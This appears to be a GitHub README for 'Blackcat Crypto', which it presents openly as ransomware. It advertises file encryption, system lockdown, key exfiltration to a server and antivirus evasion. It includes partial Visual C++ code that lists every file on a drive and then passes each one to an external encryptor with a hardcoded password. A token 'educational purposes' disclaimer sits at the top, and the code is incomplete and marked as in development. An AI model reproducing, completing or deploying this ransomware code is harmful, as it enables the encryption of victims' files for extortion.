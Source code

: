 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logon.png" alt="logo">

# Blackcat Crypto

Blackcat Crypto is open source Crypto-Locker. Blackcat Crypto is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.

## Features

1. Strong AES Encryption. (Unbreakable)
2. Lockdown System Functionailty.
3. Multi-Thread Encryption.
4. Undetectable (60+ World Most Popular AntiVirus Bypass).
5. Powerful Web Admin Interface

## Step 1 (Fetch files)

Getting all files from all drive to encrypting them.

Here is Visual C++ program get all list directory & files in drive and store path in text file for encryption later use. I use Boost C++ libraries to get all files list. Please first setup Boost libraries to compile program.

```
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>

using namespace std;

fstream out_file("data.txt", ios::out);

int main(int argc, char* argv[]) {
	boost::system::error_code dir_error;

	for (boost::filesystem::recursive_directory_iterator end, dir("C:\\Ajay\\", dir_error); dir != end; dir.increment(dir_error)) {
		if (dir_error.value()) {
			cerr << "Error accessing file: " << dir_error.message() << endl;
		}
		else {
			cout << dir->path() << endl;
			out_file << dir->path() << "\n";
		}
	}
	out_file.close();
	system("pause");
	
```

## Step 2 (Encrypt files)

Here firstly I get every file path from "data.txt" line by line and send to this crypy tool with type encryption and password. you can also embed all this program in upper loop for getting path and encrypting data recursively.

```
out_file.open("data.txt", ios::in);
	string line;
	while (out_file.good()) {
		getline(out_file, line);
		cout << line << endl;
		std::string cmmd = "crpt.exe -e -p 4321 ";
		cmmd += line;
		system(cmmd.c_str());
	}
```

# Currently in Development....
# Happy Cyber Security.....Happy Open Source...
# :)
